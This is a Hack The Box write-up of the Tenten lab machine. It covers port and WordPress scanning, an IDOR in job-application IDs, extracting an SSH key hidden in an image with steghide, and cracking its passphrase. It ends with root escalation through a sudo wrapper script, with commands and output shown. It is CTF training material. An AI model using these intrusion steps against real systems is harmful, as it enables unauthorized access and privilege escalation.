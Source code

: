 # HTB - Tenten

#### Ip: 10.10.10.10
#### Name: Tenten
#### Rating: Medium

----------------------------------------------------------------------

![Tenten.png](../assets/tenten_assets/Tenten.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.10         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:42 CDT
Nmap scan report for 10.10.10.10
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -sC -sV -T4 10.10.10.10 -p 22,80     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:43 CDT
Nmap scan report for 10.10.10.10
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://tenten.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Based on these results lets go ahead and add tenten.htb to `/etc/hosts`.

Heading to the site we find it's running WordPress.

Lets kick off a wpscan to see if we can find any users:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ wpscan --url http://tenten.htb --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.10.10.10]
```

Cool, we've found one user named takis.

![takis.png](../assets/tenten_assets/takis.png)

Lets head back to the site to see what we can find.

![site.png](../assets/tenten_assets/site.png)

Clicking on the Job Listings link we see a job posting we can apply for:

![job.png](../assets/tenten_assets/job.png)

Clicking into the Apply Now button, I'm most interested in the fact that this job or application id is directly represented with an `/8`. 

![8.png](../assets/tenten_assets/8.png)

Playing around with this manually, I see this site has an IDOR vulnerabilty and I can access other materials just by changing the number or ID in the browser. 

### Exploitation

I manually tested this (probably would have been easier to just generate a number list and fuzz this in Burp or with Ffuzz), until I reached `/13` which had an interesting attachment:

![13.png](../assets/tenten_assets/13.png)

We can fill out the appplication with test data and submit:

![hey.png](../assets/tenten_assets/hey.png)

Now that the aplication is sub,itted, we need to find out where the file ended up. This bit was tricky for me. I knew that standard WP files are loaded to `/wp-content/uploads/YEAR/MONTH/FILE` But was having a hard time finding it. I eventually checked when the box was created (May, 2017) and started fuzzing months in 2017. I eventually found our file at http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg where I find a creepy "hacker" guy:

![hacker.png](../assets/tenten_assets/hacker.png)

Not knowing exactly what to do with the image file, I downloaded it to my attacking machine and named it "creepy_hacker.jpg." Lets use exiftool to see if there is an steganography in play here, and something is embedded in the image file.

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ steghide extract -sf creepy_hacker.jpg                   
Enter passphrase: 
wrote extracted data to "id_rsa".
``` 

Whoa.. this is an id_rsa? 

Trying to use the key for user takis we see it's protected by a passphrase:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10   
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password: 
```

We can use ssh2john to crack this:

![john.png](../assets/tenten_assets/john.png)

Nice, John was able to crack this easily.

We can now login as user takis:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ whoami && hostname
takis
tenten
```

And grab the user.txt flag:

![user_flag.png](../assets/tenten_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` on the box presents me with an interesting result:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

I have no idea what this is, so I turned to Google and found lots of people who REALLY hate Linux for some reason:

![linux.png](../assets/tenten_assets/linux.png)

Not much help there..

Interesting, it appears to be a Bash script:

```text
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
So in theory we should just be able to run it with `sudo` and whatever command we pass will be executed with root permissions. Lets try it

```text
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! That worked!

Lets grab that final flag:

![root_flag.png](../assets/tenten_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------

